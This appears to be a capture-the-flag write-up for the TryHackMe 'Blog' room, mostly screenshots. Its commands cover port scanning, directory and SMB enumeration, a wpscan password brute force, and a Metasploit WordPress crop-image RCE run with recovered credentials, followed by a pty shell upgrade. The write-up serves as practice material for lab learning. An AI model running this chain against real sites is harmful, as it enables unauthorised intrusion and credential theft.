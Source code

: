 # Blog

**Room Link:** [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (478).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>



## TCP/445 - SMB

**Kali**

```
smbclient -L //$VICTIM/
```

<figure><img src="../../.gitbook/assets/image (479).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient //$VICTIM/BillySMB
```

<figure><img src="../../.gitbook/assets/image (480).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbget -R smb://$VICTIM/BillySMB
```

<figure><img src="../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf check-this.png 
cat rabbit_hole.txt 
```

<figure><img src="../../.gitbook/assets/image (482).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

If you go to http://$VICTIM/wp-admin the page redirects to a new page so I add blog.thm into my hosts file and then it worked.

<figure><img src="../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://blog.thm/ --enumerate u
```

<figure><img src="../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

Hydra was taking too long but wpscan was able to find it quickly.

**Kali**

```
wpscan --url http://blog.thm/ -U kwheel, bjoel -P /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

After logging in the user couldn't really do anything but I noticed wordpress is on version 5.0

<figure><img src="../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>







## Initial Shell

**Kali**

```
msfconsole
use exploit/multi/http/wp_crop_rce
set rhosts 10.10.229.10
set username kwheel
set password cutiepie1
run
shell
python -c 'import pty; pty.spawn("/bin/bash")'
id
```

<figure><img src="../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>






























